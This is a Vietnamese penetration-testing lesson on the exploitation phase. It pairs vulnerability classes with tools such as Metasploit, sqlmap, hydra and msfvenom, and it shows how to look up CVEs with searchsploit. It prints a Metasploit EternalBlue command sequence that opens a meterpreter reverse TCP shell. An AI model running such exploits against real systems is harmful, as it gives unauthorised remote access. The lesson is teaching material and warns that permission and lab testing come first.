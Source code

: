 Dưới đây là nội dung chi tiết cho bài học:

---

# 04. Khai thác lỗ hổng / Exploitation

## 🎯 Mục tiêu

* Hiểu rõ khái niệm khai thác lỗ hổng trong pentest.
* Biết cách sử dụng công cụ và kỹ thuật để khai thác các dịch vụ đã phát hiện.
* Làm quen với cách dùng Metasploit, khai thác thủ công, và khai thác từ CVE.

> Exploitation is the phase where theoretical vulnerabilities become real access. Precision, caution, and understanding of impact are key.

---

## 💥 1. Khai thác là gì?

Khai thác lỗ hổng (Exploitation) là giai đoạn trong đó pentester **sử dụng điểm yếu đã phát hiện** để:

* Truy cập trái phép hệ thống
* Leo thang quyền hạn
* Điều khiển thiết bị mục tiêu

---

## 🔎 2. Phân loại lỗ hổng thường gặp

| Loại lỗ hổng       | Ví dụ                    | Khai thác bằng                 |
| ------------------ | ------------------------ | ------------------------------ |
| Web (OWASP Top 10) | SQLi, XSS, LFI, RCE      | `Burp`, `sqlmap`, `exploit-db` |
| Dịch vụ mạng       | SMB v1, FTP ẩn danh, RPC | `Metasploit`, scripts          |
| Hệ điều hành       | CVE kernel, dịch vụ cũ   | `searchsploit`, `msfconsole`   |
| Phần mềm CMS       | WordPress, Joomla,...    | `wpscan`, `droopescan`         |
| Mật khẩu yếu       | SSH, FTP, RDP,...        | `hydra`, `medusa`              |

---

## 🛠 3. Công cụ khai thác phổ biến

| Công cụ        | Mô tả                                    |
| -------------- | ---------------------------------------- |
| `Metasploit`   | Framework khai thác mạnh mẽ              |
| `searchsploit` | Tìm local exploit theo CVE               |
| `sqlmap`       | Tự động khai thác SQLi                   |
| `exploit-db`   | Thư viện khai thác mã nguồn mở           |
| `msfvenom`     | Tạo shellcode/backdoor                   |
| `nmap NSE`     | Một số script có thể khai thác trực tiếp |

---

## 🧪 4. Ví dụ sử dụng Metasploit

```bash
msfconsole
```

```text
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.10
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.5
run
```

---

## 💡 5. Khai thác theo CVE

1. Dùng `nmap -sV` xác định phiên bản phần mềm.
2. Tìm CVE tương ứng qua:

   * [https://cve.mitre.org](https://cve.mitre.org)
   * [https://exploit-db.com](https://exploit-db.com)
   * `searchsploit`

```bash
searchsploit vsftpd 2.3.4
```

---

## 🚨 6. Cảnh báo

* Chỉ khai thác hệ thống có sự cho phép hợp pháp.
* Một số exploit có thể gây **treo hệ thống**, **mất dữ liệu**, nên cần thận trọng và thử trên môi trường lab trước.
* Ghi chú rõ kết quả để phục vụ báo cáo sau cùng.

---

## 🧠 Tổng kết

* Đây là bước “đột nhập” dựa trên thông tin từ các giai đoạn trước.
* Pentester giỏi không chỉ biết bắn exploit, mà phải hiểu vì sao nó hoạt động.
* Hãy rèn luyện cả khả năng dùng công cụ và khai thác thủ công.

---

Bạn muốn tiếp tục với phần **05. Hậu khai thác và duy trì truy cập (Post-Exploitation)** không?
